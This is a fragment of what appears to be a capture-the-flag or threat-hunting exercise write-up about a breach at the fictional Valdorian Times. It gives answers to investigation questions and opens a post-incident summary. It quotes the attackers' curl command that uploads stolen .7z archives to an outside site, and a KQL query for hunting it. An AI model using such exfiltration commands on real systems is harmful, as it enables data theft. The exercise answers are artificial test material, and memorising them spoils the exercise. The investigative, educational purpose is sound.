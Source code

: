 ## Question 30

After compressing all the stolen data into .7z files, the attackers *exfiltrated* the data by uploading it to a custom portal on their website.

**What is the full command the attackers ran to do this?**

> `curl -F "file=@C:\Users\romclovin\Documents\*.7z" https://hirejob.com/exfil_processor/upload.php`
> 

![image.png](image%2017.png)

## Question 31

**What domain was the stolen data uploaded to?**

> `hirejob.com`
> 

## Question 32

Query ProcessEvents for all devices at Valdorian Times.

**Was data stolen from any other devices and uploaded to hirejob.com? (yes/no)**

> `no`
> 

```sql
ProcessEvents
| where process_commandline contains "curl"
```

## 

# Summary

The Valdoria Times
Post-Incident Report

On January 22, 2024, The Valdorian Times published an unapproved article that
made defamatory statements about a candidate in the Valdoria mayoral race.
While the newspaper was planning to publish an OpEd on both candidates the
morning of the election, the article that was published did not match the article
that had been approved by the editor for publication.
